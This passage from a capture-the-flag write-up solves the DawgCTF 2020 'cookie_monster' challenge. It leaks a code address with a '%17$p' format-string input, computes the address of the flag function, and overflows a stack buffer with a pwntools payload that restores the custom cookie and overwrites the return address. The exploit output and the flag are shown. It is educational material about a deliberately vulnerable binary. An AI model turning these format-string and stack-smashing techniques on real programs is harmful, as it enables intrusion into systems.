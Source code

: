 This is fairly straightforward, we already established in the analysis section that `main+0` is the 17th parameter, to leak it input `%17$p` as name, the output of the `printf` will look something like:

```
b'Hello, 0x555555555337\n\nWould you like a cookie?\n'
```

Just extract and convert to an integer.

To compute the location of `flag`:

```
binary = ELF('cookie_monster')
flag = main + (binary.symbols['flag'] - binary.symbols['main'])
print(hex(flag))
```


#### Overflow buffer, re-set `saved_cookie`, smash the stack, get the flag


From the disassembly, `local_19` is `0x11` (17) bytes above the saved base pointer and the return address:

```
001012a1 48 8d 45 ef     LEA        RAX=>local_19,[RBP + -0x11]
```

However the last 4 bytes need to be the `saved_cookie`.

```
payload = (0x11 - 4) * b'A'
payload += p32(saved_cookie)
payload += 8 * b'B'
payload += p64(flag)

p.sendline(payload)
p.stream()
```

The payload sends 13 `A`s, follow by the PRNG/time computed `saved_cookie`, the 8 bytes to overwrite the saved based pointer, then the address of `flag`.


#### Output

```
[+] Opening connection to ctf.umbccd.io on port 4200: Done
0x5559c8bbc337
[*] '/pwd/datajerk/dawgctf2020/cookie-monster/cookie_monster'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
0x5559c8bbc1b5
DawgCTF{oM_n0m_NOm_I_li3k_c0oOoki3s}
```

#### Flag

```
DawgCTF{oM_n0m_NOm_I_li3k_c0oOoki3s}
```
